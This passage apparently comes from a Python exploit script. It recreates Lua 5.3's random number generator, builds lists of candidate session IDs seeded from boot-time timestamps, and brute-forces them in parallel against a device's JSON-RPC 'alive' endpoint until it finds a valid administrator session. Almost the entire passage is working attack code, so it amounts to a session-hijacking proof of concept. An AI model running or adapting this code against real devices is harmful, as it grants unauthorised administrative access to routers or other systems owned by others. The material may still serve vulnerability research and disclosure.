 ```
    call.mysrandom(s)
    call.myrandom()
 
def lua53_math_random(max):
    return int(call.myrandom() * (1.0 / (RAND_MAX +1.0)) * max) + 1
 
def generate_id(n):
    s = []
    t = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
        "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]
    for i in range(n):
        a = lua53_math_random(len(t))-1
        s.append(t[a])
    return "".join(s)
     
 
def makeRequest(sid):
    j = {"jsonrpc":"2.0","id":1,"method":"alive","params":{"sid":sid}}
    r = s.post("http://192.168.122.130/rpc", json=j, timeout=timeout)
    if "Access denied" not in (r.text):
        print("[*] An admin SID found: \033[1m%s\033[0m" %sid)
        return sid
     
def bruteForce():
    counter = 1
    e = concurrent.futures.ProcessPoolExecutor(max_workers=8)
    with open("SIDs", "r", encoding="utf-8") as f:
        sids = f.read().splitlines()
    print("[*] Bruteforce attack has started ... it may take very long time ...")
    for sid in range(0, len(sids), 2048):
        print("[*] The number of SIDs have been bruteforced so far: \033[1m%d\033[0m" %(2048*counter), end="\r")
        counter += 1
        results = e.map(makeRequest, sids[sid:sid+2048])
        for response in list(results):
            if response:
                e.shutdown(wait=True, cancel_futures=True)
                return response
 
def generateSIDs(boot_time):
    with open("SIDs", "a") as SIDs:
        for s in range(max_backward_seconds):
            lua53_math_randomseed(boot_time)
            for i in range(10):
                generate_id(32)
                sid = generate_id(32)
                SIDs.write(sid+"\n")
            boot_time -= 1
    print("[*] The bruteforce list has been constructed!")
 
call = CDLL("./myrand-lua53.so")
generateSIDs(int(time.time()))
bruteForce()
```
